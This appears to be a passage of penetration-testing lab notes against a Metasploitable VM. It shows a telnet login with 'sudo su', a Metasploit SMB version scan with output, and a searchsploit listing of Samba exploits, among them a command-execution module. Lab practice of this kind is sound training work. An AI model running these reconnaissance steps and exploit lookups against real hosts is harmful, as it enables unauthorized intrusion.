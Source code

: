 `telnet <metasploitable ip>`
`sudo su`

## Samba exploit

```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
```
msfconsole
search samba
use auxiliary/scanner/smb/smb_version
show info
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 auxiliary(scanner/smb/smb_version) > run

[*] <metasploitable ip>:445      - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] <metasploitable ip>:445      -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] <metasploitable ip>:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
searchsploit samba
┌──(kali㉿kali)-[~]
└─$ searchsploit Samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                                                      | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                               | linux_x86/dos/36741.py
```